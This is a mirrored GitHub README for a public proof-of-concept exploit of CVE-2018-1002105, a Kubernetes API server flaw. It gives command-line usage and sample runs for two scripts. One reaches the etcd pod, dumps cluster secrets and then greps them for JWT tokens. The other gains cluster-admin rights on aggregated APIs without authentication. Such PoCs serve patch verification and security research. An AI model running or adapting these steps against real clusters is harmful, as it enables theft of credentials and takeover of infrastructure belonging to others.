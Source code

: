 # poc_CVE-2018-1002105

PoC for CVE-2018-1002105.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/evict](https://github.com/evict) |
| Url      | [https://github.com/evict/poc_CVE-2018-1002105](https://github.com/evict/poc_CVE-2018-1002105)                                               |
| Stars    | 220                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2018-1002105 PoC

* [Authenticated PoC](#authenticated-poc)
    * [Demo](#demo)
    * [Usage](#usage)
* [Unauthenticated PoC](#unauthenticated-poc)
    * [Demo](#demo-1)
    * [Usage](#usage-1)


## Authenticated PoC
Proof-of-Concept exploit for CVE-2018-1002105. The current exploit requires `create` and `get` privileges on `pods` and `pods/exec`. Support has been added for `portforward` and `attach`, which require similar permissions. 

The current PoC dumps the secrets from the default `etcd-kubernetes` pod.

### Demo
The PoC in action:

[![asciicast](https://asciinema.org/a/kubSrehAf14K7MQ9aZw2RpCYd.svg)](https://asciinema.org/a/kubSrehAf14K7MQ9aZw2RpCYd)

### Usage

```bash
usage: poc.py [-h] --target TARGET --jwt TOKEN [--namespace NAMESPACE] --pod
              POD --method {exec,portforward,attach}
              [--privileged-namespace PNAMESPACE] [--privileged-pod PPOD]
              [--container CONTAINER] [--command COMMAND]
              [--filename FILENAME]

PoC for CVE-2018-1002105.

optional arguments:
  -h, --help            show this help message and exit

required arguments:
  --target TARGET, -t TARGET
                        API server target:port
  --jwt TOKEN, -j TOKEN
                        JWT token for service account
  --namespace NAMESPACE, -n NAMESPACE
                        Namespace with method access
  --pod POD, -p POD     Pod with method access
  --method {exec,portforward,attach}, -m {exec,portforward,attach}

optional arguments:
  --privileged-namespace PNAMESPACE, -s PNAMESPACE
                        Target namespace
  --privileged-pod PPOD, -e PPOD
                        Target privileged pod
  --container CONTAINER, -c CONTAINER
                        Target container
  --command COMMAND, -x COMMAND
                        Command to execute
  --filename FILENAME, -f FILENAME
                        File to save output to

```

Example:

```bash
$ ./poc.py -t 10.0.2.15:6443 --jwt [token] -p [pod] -f etcd.out -m attach
[*] Building pipe using attach...
[+] Pipe opened :D
[*] Attempting code exec on etcd-kubernetes/etcd
[*] Writing output to etcd.out ....
[+] Done!
```

Check for tokens:

```bash
$ grep -air eyJ etcd.db
```

## Unauthenticated PoC
The unauthenticated PoC allows privilege escalation within the context of the exposed API. Depending on the functionalities of the API it might be possible to get code execution on pods. This demo currently exploits the bug to gain cluster-admin rights on the `servicecatalog.k8s.io` API. This exploit should also work for `metrics.k8s.io` or any API exposed through the aggregated layer.

### Demo
The PoC in action:

[![asciicast](https://asciinema.org/a/TjbO5p1JJN0dnNSSWhrcopn9e.svg)](https://asciinema.org/a/TjbO5p1JJN0dnNSSWhrcopn9e)

### Usage

```bash
usage: unauth_poc.py [-h] --target TARGET [--api-base BASE]
                     [--api-target TARGET_API] [--api-version VERSION]
                     [--json] [--filename FILENAME]

Unauthenticated PoC for CVE-2018-1002105

optional arguments:
  -h, --help            show this help message and exit

required arguments:
  --target TARGET, -t TARGET
                        API server target:port
  --api-base BASE, -b BASE
                        Target API name i.e. "servicecatalog.k8s.io"
  --api-target TARGET_API, -u TARGET_API
                        API to access i.e. "clusterservicebrokers"

optional arguments:
  --api-version VERSION, -a VERSION
                        API version to use i.e. "v1beta1"
  --json, -j            Print json output
  --filename FILENAME, -f FILENAME
                        File to save output to
```

Example:

```bash
$ ./unauth_poc.py -t 10.0.2.15:6443 --json -f api.out
[*] Building pipe ...
[+] Pipe opened :D
[*] Attempting to access url
[+] Pipe opened :D
[*] Writing output to api.out ....
[+] Done!

```



## Get the content

```
git clone https://github.com/evict/poc_CVE-2018-1002105
cd poc_CVE-2018-1002105
```

{% embed url="https://github.com/evict/poc_CVE-2018-1002105" %}

<figure><img src="https://avatars.githubusercontent.com/u/7238650?v=4" alt=""><figcaption><p>evict</p></figcaption></figure>
